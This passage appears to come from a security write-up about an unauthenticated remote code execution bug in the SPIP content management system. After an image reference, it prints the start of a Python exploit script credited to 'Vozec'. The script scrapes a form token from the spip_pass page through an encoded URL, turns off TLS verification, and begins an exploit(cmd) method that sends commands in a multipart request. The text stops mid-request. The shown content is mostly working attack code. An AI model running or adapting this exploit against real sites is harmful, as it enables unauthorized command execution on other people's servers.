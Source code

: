 ![unauth-spip-rce](unauth-spip-rce.png)

Vozec also made a python script for the same bug:

```þython
#!/bin/env python3
import argparse
import requests
import re
import io
import readline
from urllib.parse import unquote
from bs4 import BeautifulSoup
from requests_toolbelt.multipart.encoder import MultipartEncoder
import urllib3

urllib3.disable_warnings()


class exploit:
    def __init__(self, args) -> None:
        self.url = args.target
        self.s = requests.session()

    def get_tokens(self):
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:129.0) Gecko/20100101 Firefox/129.0",
            "Accept": "*/*",
            "Accept-Language": "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3",
            "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        }
        url = f"{self.url}/spip.ph%70?pag%65=spip_pass&lang=fr"
        r = requests.Request(
            url=url,
            method="GET",
            headers=headers,
        )
        prep = r.prepare()
        prep.url = url
        r = self.s.send(prep, verify=False).text
        soup = BeautifulSoup(r, "html.parser")
        token = soup.find("input", {"name": "formulaire_action_args"})["value"]
        return token

    def exploit(self, cmd):
        token = self.get_tokens()
        mp_encoder = MultipartEncoder(
            fields={
```